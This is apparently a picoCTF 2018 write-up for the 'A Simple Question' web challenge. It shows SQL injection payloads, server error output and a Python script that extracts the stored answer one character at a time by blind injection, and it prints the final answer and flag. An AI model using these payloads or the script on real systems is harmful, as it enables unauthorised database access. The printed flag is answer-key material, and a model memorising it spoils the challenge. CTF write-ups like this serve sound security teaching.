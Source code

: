 ```yaml
---
layout: post
title: Web Exploitation - A Simple Question (650) - PicoCTF 2018
categories: [general, CTFs, Web]
tags: [CTFs, picoCTF2018, Web Exploitation]
comments: true
---
```


The first thing I tried  is to check for an SQLI vulnerability by sending `'` as my payload. Lucky enough, it seems there is one, and even more than that - we actually get to see the SQL query  that was made and the error it caused. Knowing that we can already tell it is probably an error-based SQL injection challenge.

Here is the result: 
`SQL query: SELECT * FROM answers WHERE answer='''  
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "'''" in **/problems/a-simple-question_2_7cdb92e4585fe82f01b576698a830c1e/webroot/answer2.php** on line 15 
` 

`Fatal error: Uncaught Error: Call to a member function fetchArray() on boolean in /problems/a-simple-question_2_7cdb92e4585fe82f01b576698a830c1e/webroot/answer2.php:17 Stack trace: #0 {main} thrown in /problems/a-simple-question_2_7cdb92e4585fe82f01b576698a830c1e/webroot/answer2.php on line 17`

So by that we understand that we are dealing with an SQLite3 DB, and we try to retrieve `answer` from the `answers` table.
Let's try to inject `'or 1=1-- -` as this payload will prevent an error - 
`SQL query: SELECT * FROM answers WHERE answer=''or 1=1-- -'`
`You are so close.`
So from that we can understand that when our SQL query is true, we of course don't get an error, but instead we get the string `"You are so close"`.
We can use that to slowly **brute-force** the answer.

Basically we want to use the following payload, and each time we'll try to guess one letter that is in our answer, and we'll be able to tell if it is based on the fact that we can either get an error when false, or the string `"You are so close"` when true.
The payload: `' union select answer FROM answers where substr(answer,INDEX,1)= CHAR-- -'`
* Notice that in most cases it is common to use the `like` keyword for that kind of stuff, but because it is case-insensitive in SQLite, we'll user `substr`.

Let's recap our strategy for this challenge - we'll loop through all write-able characters, and when we don't get an error we'll increment `INDEX` by 1, and start to loop again, looking for the next valid character.

# The Script
```python
import urllib3
import requests, sys, time

http = urllib3.PoolManager()
allChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ _!"#$&()*+`-./:;<=>?@[]\\^{}|~'


flag = ""
like = "%"
i = 1
while 1:
	print (allChars[0])
	for char in allChars:
		statement = '\'  union select answer FROM answers where substr(answer,'+str(i)+',1)="'+char+'"-- -'
		r = http.request("POST", "http://2018shell1.picoctf.com:32635/answer2.php", fields={'answer':statement})
		if "close" in r.data.decode():
			flag += char
			i+=1
			print (flag)
			break
```
Answer - `41AndSixSixths`.
Flag - `picoCTF{qu3stions_ar3_h4rd_8f84b784}`.
